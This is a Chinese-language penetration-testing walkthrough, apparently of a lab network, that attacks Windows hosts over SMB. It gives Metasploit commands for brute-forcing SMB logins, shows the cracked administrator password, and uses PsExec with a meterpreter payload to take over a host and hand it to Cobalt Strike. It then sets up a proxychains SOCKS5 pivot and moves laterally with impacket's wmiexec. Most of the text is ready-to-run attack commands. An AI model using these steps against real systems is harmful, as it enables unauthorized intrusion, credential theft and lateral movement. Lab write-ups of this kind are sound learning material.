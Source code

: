 1. **smb 密码爆破**  
：使用 msf 的 auxiliary/scanner/smb/smb_login 模块进行 smb 密码爆破，命令如下：  

```
use auxiliary/scanner/smb/smb_login
set smbuser administrator
set pass_file /root/tools/dict/vul-pass.txt
set rhosts 192.168.93.20
run
```

  
成功获取到 192.168.93.20 和 192.168.93.30 两台主机的密码：administrator/123qwe!ASD 。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAlt4wnPyIAv4MyhRgnhEY3YYYe9siby7YxGgWPueHc0FHX4QpEBHXgdyOYOCDUhtaMPODVaL7OibIAA/640?wx_fmt=png&from=appmsg "")  
  
  
2. **PsExec smb 利用**  
：使用 exploit/windows/smb/psexec 模块进行利用，命令如下：  
  

```
use exploit/windows/smb/psexec
set payload windows/x64/meterpreter/bind_tcp
set rhost 192.168.93.20
set smbuser administrator
set smbpass 123qwe!ASD
run
```

  
成功使 192.168.93.20 主机上线，并将其派生给 cs。  
  
  
3. **kali 正向代理配置**  
：使用 kali 自带的 proxychains 工具配置代理，先复制配置文件 cp /etc/proxychains4.conf/etc/proxychains.conf（若已存在则无需复制），然后编辑配置文件 vi /etc/proxychains.conf，在文件末尾添加 socks5 192.168.1.104 50002 aaa Aaa 。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAlt4wnPyIAv4MyhRgnhEY3YaOrLGjU3ZfxRTpgMDdyoicRicEv9mxN29No7dSMicexILUFL6HPsLTtIA/640?wx_fmt=png&from=appmsg "")  
  
  
4. **wmiexec smb 利用**  
：WMI（Windows Management Instrumentation）是 Windows 管理规范，可用于管理本地和远程计算机，攻击者利用 wmi 攻击具有无日志、脚本无需写入磁盘的隐蔽性。先下载 wmiexec 工具，地址为https://github.com/CoreSecurity/impacket/blob/master/examples/wmiexec.py ，执行以下命令进行安装：  
  

```
git clone https://github.com/CoreSecurity/impacket.git
cd impacket/
python3 -m pip install .
```

  
安装过程中虽出现包冲突但未影响 wmiexec.py 使用，使用命令 proxychains4 python3 wmiexec.py -debug 'administrator:123qwe!ASD@192.168.93.20' 连接目标主机 。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAlt4wnPyIAv4MyhRgnhEY3YRDtM0lxoTBGzclJBicmd8p9cqV20Gl5JDJQia2QTHrHZUc5S0FRbgyHA/640?wx_fmt=png&from=appmsg "")  
  